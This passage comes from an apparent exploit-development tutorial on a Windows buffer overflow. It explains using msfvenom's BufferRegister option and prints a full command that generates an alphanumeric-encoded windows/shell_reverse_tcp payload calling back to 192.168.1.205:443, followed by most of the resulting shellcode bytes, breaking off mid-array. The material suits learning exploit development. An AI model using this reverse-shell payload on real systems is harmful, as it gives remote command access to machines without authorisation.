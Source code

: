So in summary, the shellcode uses this sequence of characters to find the absolute location of shellcode in memory, but if you know the absolute location as it relates to a register we can use the `BufferRegister` option and specify a register the shellcode resides in. Well, we know that the shellcode resides in `ESP` so we should be good to go!

This was my problem with the SEH overwrite, I couldn't get the program to overflow in a way that would place our payload after the Net Jump in a register...but I digress...

### Generating the Shellcode

To generate our special shellcode we use the following command: 
```terminal_session
msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.1.205 LPORT=443 -f c -b '\x00' -e x86/alpha_mixed BufferRegister=ESP
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 702 (iteration=0)
x86/alpha_mixed chosen with final size 702
Payload size: 702 bytes
Final size of c file: 2973 bytes
unsigned char buf[] = 
"\x54\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
"\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b"
"\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58"
"\x50\x38\x41\x42\x75\x4a\x49\x49\x6c\x6a\x48\x6d\x52\x33\x30"
"\x55\x50\x77\x70\x73\x50\x6b\x39\x5a\x45\x75\x61\x69\x50\x63"
"\x54\x4e\x6b\x42\x70\x56\x50\x4e\x6b\x70\x52\x64\x4c\x4e\x6b"
"\x72\x72\x54\x54\x4c\x4b\x34\x32\x44\x68\x54\x4f\x6f\x47\x32"
"\x6a\x36\x46\x36\x51\x39\x6f\x6e\x4c\x77\x4c\x55\x31\x53\x4c"
"\x47\x72\x76\x4c\x31\x30\x39\x51\x38\x4f\x76\x6d\x36\x61\x48"
"\x47\x79\x72\x6b\x42\x42\x72\x66\x37\x6e\x6b\x72\x72\x34\x50"
"\x4c\x4b\x33\x7a\x37\x4c\x6e\x6b\x62\x6c\x57\x61\x63\x48\x4b"
"\x53\x63\x78\x53\x31\x5a\x71\x46\x31\x6e\x6b\x36\x39\x55\x70"
"\x73\x31\x4a\x73\x4e\x6b\x30\x49\x52\x38\x58\x63\x66\x5a\x30"
"\x49\x6c\x4b\x36\x54\x4c\x4b\x45\x51\x49\x46\x36\x51\x39\x6f"
"\x4e\x4c\x6f\x31\x68\x4f\x74\x4d\x46\x61\x38\x47\x74\x78\x4b"
"\x50\x52\x55\x4c\x36\x73\x33\x61\x6d\x49\x68\x77\x4b\x73\x4d"
"\x77\x54\x70\x75\x5a\x44\x73\x68\x4e\x6b\x72\x78\x31\x34\x73"
"\x31\x79\x43\x72\x46\x6e\x6b\x54\x4c\x62\x6b\x4c\x4b\x33\x68"
"\x35\x4c\x73\x31\x68\x53\x6c\x4b\x43\x34\x6e\x6b\x55\x51\x68"
"\x50\x6b\x39\x77\x34\x74\x64\x36\x44\x61\x4b\x73\x6b\x33\x51"
"\x71\x49\x32\x7a\x52\x71\x69\x6f\x49\x70\x31\x4f\x63\x6f\x43"
"\x6a\x4c\x4b\x77\x62\x68\x6b\x4c\x4d\x53\x6d\x45\x38\x70\x33"
"\x65\x62\x73\x30\x75\x50\x71\x78\x54\x37\x31\x63\x64\x72\x51"
"\x4f\x33\x64\x75\x38\x42\x6c\x42\x57\x67\x56\x44\x47\x4b\x4f"
"\x79\x45\x4d\x68\x4e\x70\x33\x31\x73\x30\x77\x70\x47\x59\x4f"
"\x34\x51\x44\x30\x50\x73\x58\x55\x79\x6b\x30\x32\x4b\x73\x30"
"\x79\x6f\x39\x45\x50\x50\x76\x30\x76\x30\x70\x50\x47\x30\x36"
"\x30\x63\x70\x50\x50\x51\x78\x7a\x4a\x36\x6f\x79\x4f\x4b\x50"
"\x4b\x4f\x38\x55\x6f\x67\x50\x6a\x53\x35\x72\x48\x6f\x30\x6d"
"\x78\x66\x61\x68\x4d\x52\x48\x64\x42\x47\x70\x47\x71\x4f\x4b"
"\x4c\x49\x48\x66\x31\x7a\x42\x30\x61\x46\x36\x37\x61\x78\x4e"
"\x79\x4e\x45\x50\x74\x63\x51\x4b\x4f\x7a\x75\x6c\x45\x39\x50"
"\x50\x74\x56\x6c\x69\x6f\x32\x6e\x53\x38\x51\x65\x68\x6c\x35"
"\x38\x4a\x50\x6d\x65\x49\x32\x31\x46\x79\x6f\x6a\x75\x65\x38"
"\x45\x33\x62\x4d\x35\x34\x43\x30\x6c\x49\x6a\x43\x71\x47\x63"
"\x67\x73\x67\x56\x51\x4b\x46\x43\x5a\x32\x32\x51\x49\x43\x66"
"\x68\x62\x6b\x4d\x53\x56\x6a\x67\x71\x54\x74\x64\x45\x6c\x76"
"\x61\x77\x71\x4e\x6d\x42\x64\x44\x64\x46\x70\x4b\x76\x63\x30"
"\x51\x54\x42\x74\x50\x50\x73\x66\x46\x36\x72\x76\x61\x56\x72"
"\x76\x52\x6e\x62\x76\x71\x46\x30\x53\x51\x46\x62\x48\x52\x59"
"\x58\x4c\x77\x4f\x4d\x56\x69\x6f\x4a\x75\x6d\x59\x4b\x50\x62"
```